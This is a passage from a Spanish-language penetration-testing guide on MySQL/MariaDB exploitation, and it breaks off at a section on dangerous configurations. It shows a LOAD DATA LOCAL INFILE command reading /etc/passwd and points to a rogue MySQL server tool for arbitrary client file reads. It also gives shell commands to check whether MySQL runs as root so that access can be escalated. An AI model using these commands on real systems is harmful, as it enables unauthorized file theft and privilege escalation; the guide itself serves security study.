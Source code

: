 ## EXPLOTACIÓN

### Lectura arbitraria de archivos por cliente

Cuando intentas cargar archivos locales en una tabla, el servidor de MySQL o MariaDB hace que el contenido del archivo sea leido por el cliente y después enviado.

Por ese motivo, si eres capaz de iniciar un cliente MySQL y conectarlo a tu propio servidor MySQL, podrías leer archivos arbitrarios.

<pre class="language-sql"><code class="lang-sql"><strong>mysql -u &#x3C;USER> -p --enable-local-infile
</strong><strong>
</strong><strong>load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
</strong></code></pre>

Es importante utilizar el modificador local, ya que sino podemos obtener el siguiente error:

```sql
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv 
option so it cannot execute this statement
```

{% hint style="info" %}
Para hacerlo correctamente necesitas un servidor MySQL. Se puede utilizar el siguiente:\
[https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)\
\
Además pueden encontrar el resumen de la vulnerabilidad [**aquí**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/).

La explicación detallada de la vulnerabilidad [**aquí**](https://paper.seebug.org/1113/).
{% endhint %}

## POST-EXPLOTACIÓN

### Comprobar el usuario de MySQL

Es muy interesante comprobar, después del acceso inicial a un objetivo, si el usuario root es el que maneja MySQL por que se puede utilizar para escalar privilegios.

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
systemctl status mysql 2>/dev/null | grep -o ".\{0,0\}user.\{0,50\}" | cut -d '=' -f2 | cut -d ' ' -f1
```

### Configuraciones Peligrosas

El archivo de configuración por defecto es:

```
mysqld.cnf
```
